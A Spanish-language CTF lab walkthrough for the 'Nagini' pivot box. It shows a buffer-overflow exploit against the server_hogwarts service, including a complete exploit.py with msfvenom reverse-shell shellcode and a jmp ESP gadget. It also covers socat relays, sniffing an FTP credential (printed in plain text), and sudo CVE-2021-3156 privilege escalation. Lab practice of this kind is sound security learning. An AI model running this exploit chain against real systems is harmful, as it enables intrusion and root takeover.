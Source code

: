 [[192.168.100.7(Nagini)]]

Haremos un [[NMAP]]
`nmap -sT -Pn -p- --open -T5 -v -n 192.168.100.5`

```python
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
2222/tcp open  EtherNetIP-1
9898/tcp open  monkeycom
```

Vemos que el puerto del FTP esta activado así que vamos a probar a conectarnos, vemos que se puede acceder como usuarios `anonymous`

Vemos un binario llamado `server_hogwarts` así que con strace vamos a ver que es lo que hace y en que consiste: `strace ./server_hogwarts`, vemos que lo que realiza es montar un servidor por el puerto `9898`

Si ejecutamos el binario podremos acceder a el con netcat usando `nc localhost 9898` que es el puerto que estaba abierto durante el nmap.
El binario pide un input así que si no se ha definido bien un tamaño de buffer sin sanitizarlo se podría acontecer un bufferoverflow

Para poder realizar esto nos ejecutaremos el programa con la herramienta de gdb: `gdb ./server_hpgwarts -q` y para correr la herramienta usaremos la r una vez dentro de gdb.

Y en la otra terminal nos conectamos con netcat e introducimos todas las "A" posibles, y llenaremos el EIP de "A" o en hexadecimal 4141414141.

Si ejecutamos checsec nos mostrara si NX esta desactivado que nos permitirá hacer que un flujo de la pila se interprete cómo shellcode

En gdb haremos `cyclic 1024` para que nos cree un patrón de letras para identificar donde se llena el EIP
Una vez se llena el EIP copiamos el valor hexadecimal y ejecutamos `cyclic -o 0x62616164` y te dice en que bite esta el offset

Ahora para apuntar al EIP directamente usaremos el siguiente comando de python para llenar el EIP y verificar que se llena de "B" `python3 -c 'print("A"*112 + "B"*4 +"C"*100)'` y al llenarlo nuestro ESP apunta al comienzo de las letra "C" 

Ahora tenemos que hacer que EIP apunte directamente al ESP para que una vez salte a este se ejecute un shellcode

Necesitaremos realizar un shellcode que haremos con msfvenom:
`msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.100.7 LPORT=5555 -b '\x00\x0a\x0d' -f py -v shellcode`

Usaremos objdump para encontrar el OpCode que hace el salto al ESP
Para saber a donde se corresponde el OpCode usaremos `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` e introducimos `jmp ESP` nos dice que el OpCode corresponde a `FFE4`

Ahora objdum ejecutamos:
`objdump -D server_hogwarts| grep "ff e4"`

Nos mostrara direcciones que realizan ese salto que buscábamos en este caso: ``
`8049d55` tiene que estar en little endian así que le damos la vuelta en el código

Vamos a realizar un `exploit.py` para realizar esto:
```python
#!/usr/bin/python3

import socket

offset = 112
before_eip = b"A"*offset

eip = b"\x55\x9d\x04\x08" # 8049d55 jump ESP

shellcode = b""
shellcode += b"\xdb\xd8\xd9\x74\x24\xf4\xb8\x74\xc6\xd0\xaa"
shellcode += b"\x5b\x29\xc9\xb1\x12\x31\x43\x17\x03\x43\x17"
shellcode += b"\x83\x9f\x3a\x32\x5f\x6e\x18\x44\x43\xc3\xdd"
shellcode += b"\xf8\xee\xe1\x68\x1f\x5e\x83\xa7\x60\x0c\x12"
shellcode += b"\x88\x5e\xfe\x24\xa1\xd9\xf9\x4c\xf2\xb2\x9e"
shellcode += b"\x89\x9a\xc0\x5e\x84\xe9\x4c\xbf\x16\x6b\x1f"
shellcode += b"\x11\x05\xc7\x9c\x18\x48\xea\x23\x48\xe2\x9b"
shellcode += b"\x0c\x1e\x9a\x0b\x7c\xcf\x38\xa5\x0b\xec\xee"
shellcode += b"\x66\x85\x12\xbe\x82\x58\x54"

after_eip = b"\x90"*32 + shellcode # ESP

payload = before_eip + eip + after_eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.100.5", 9898))
s.send(payload)
s.close()
```

En la maquina [[192.168.100.7(Nagini)]] con socat deberemos configurar el renvio de paquetes

## AÑADIR SOCAT
root@Nagini:~/socat# ./socat TCP-LISTEN:5555,fork TCP:10.10.0.4:5556
root@Nagini:~/socat# ./socat TCP-LISTEN:5555,fork TCP:10.10.0.4:5556
nc -nlvp 443


Una vez tenemos la shell en el directorio de `/root` encontramos un archivo `notes.txt` que nos dice que han detectado una entrada de un usuario por ftp, asi que con `tcpdump -i eth0 port ftp or ftp-data`
Veremos el trafico hacia ese puerto pudiendo identificar un usuario y una contraseña `neville::bL!Bsg3k`

Con estas credenciales podemos acceder a la maquina via ssh
No nos permite enumerar permisos de sudo con `sudo -l` asi que buscaremos permisos SUID con `find / -perm -4000 2>/dev/null`

Vemos que tiene SUID en sudo, en entonces vamos a ver la versión de este con `sudo --version` y vemos que es la versión 1.8.27

Buscamos en Google información sobre este y encontramos un exploit en GitHub
`https://github.com/worawit/CVE-2021-3156`

Nos copiamos el codigo de `exploit_nss.py` en `/tmp` y creamos un archivo llamdo `privesc.py`
Y lo ejecutamos con `python3 privesc.py` y estaremos como root
